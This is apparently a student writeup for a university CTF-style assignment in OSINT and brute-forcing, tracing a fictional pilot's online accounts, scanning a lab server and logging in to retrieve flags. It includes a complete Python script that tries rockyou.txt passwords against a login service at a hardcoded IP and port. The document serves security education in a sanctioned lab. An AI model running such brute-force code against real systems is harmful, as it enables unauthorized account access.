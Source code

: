 Writeup 2 - OSINT (Open Source Intelligence)
======

Name: Michael Zheng
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: Michael Zheng

## Assignment 2 writeup

### Part 1 (45 pts)

1. Fred Krueger

2. First, I search up kruegster1990 on google. I saw that he had a reddit account https://www.reddit.com/user/kruegster1990. Then I try using twitter and found his twitter account https://twitter.com/kruegster1990. I found his instagram account https://www.instagram.com/kruegster1990

3. His Twitter account tells me where he works. I copy the link and then paste it on the centralops and found the ip address: 142.93.118.186.

4. I use robot.txt which shows a hidden directory http://www.cornerstoneairlines.co/secret/ and got CMSC389R-{fly_th3_skles_wlth_u5}

5. When I click on the admin tab, I found 142.93.117.193.

6. Using the censys.io, I found 142.93.117.193 and 142.93.118.186 are both located at New York City. 

7. From the censys.io, the 0S is Ubuntu.

8. CMSC389R-{h1dden_fl4g_in_s0urce}

### Part 2 (55 pts)

From the nmaps on the CornerStone website, I found the ip address is 142.93.117.193. From the nmaps, I found the port number 22 was open, so I put it down on my program. Afterward, based from his email and the hint from piazza, I guess his username could be kruegster. I use kruegster as the username in the stub.py and tried to find the correct password by iterating through rockyou.txt. However, my program stated that the connection failed. I tried using nmap again and use port 1337. I tried running my code again. It prints out the password "pokemon". Then I entered nc 142.93.117.93 1337. Then I type enter kruegster and pokemon which let me to login. I enter cd home and cd flight_records. In this directory, it list all the flights. From his instagram, there is a picture showing his flight number AAC27670. I enter cat AAC27670.txt where I get the flag CMSC389R-{c0rn3rstone-air-27670}. 

Below is the code which can be found in stub.py 
"""
    If you know the IP address of the Briong server and you
    know the port number of the service you are trying to connect
    to, you can use nc or telnet in your Linux terminal to interface
    with the server. To do so, run:

        $ nc <ip address here> <port here>

    In the above the example, the $-sign represents the shell, nc is the command
    you run to establish a connection with the server using an explicit IP address
    and port number.

    If you have the discovered the IP address and port number, you should discover
    that there is a remote control service behind a certain port. You will know you
    have discovered the correct port if you are greeted with a login prompt when you
    nc to the server.

    In this Python script, we are mimicking the same behavior of nc'ing to the remote
    control service, however we do so in an automated fashion. This is because it is
    beneficial to script the process of attempting multiple login attempts, hoping that
    one of our guesses logs us (the attacker) into the Briong server.

    Feel free to optimize the code (ie. multithreading, etc) if you feel it is necessary.

"""

import socket

host = "142.93.117.193" # IP address here
port = 1337 # Port here
wordlist = "/usr/share/wordlists/rockyou.txt" # Point to wordlist file

def brute_force():
    """
        Sockets: https://docs.python.org/2/library/socket.html
        How to use the socket s:

            # Establish socket connection
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((host, port))

            Reading:

                data = s.recv(1024)     # Receives 1024 bytes from IP/Port
                print(data)             # Prints data

            Sending:

                s.send("something to send\n")   # Send a newline \n at the end of your command

        General idea:

            Given that you know a potential username, use a wordlist and iterate
            through each possible password and repeatedly attempt to login to
            the Briong server.
    """
    username = "kruegster"   # Hint: use OSINT
    password = ""            # Hint: use wordlist

    read =  open(wordlist, 'r')
    for line in read:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host,port))
        data = s.recv(1024)
        if data:
            s.send(username + "\n")
            data = s.recv(1024)
            if data:
                s.send(line + "\n")
                data = s.recv(1024)
                if data != b'Fail\n':
                    print("Username: " + username + " data: " + data +" pass: " + line)
                    return
            else:

                print("username wrong" + '\n')









if __name__ == '__main__':
    brute_force()

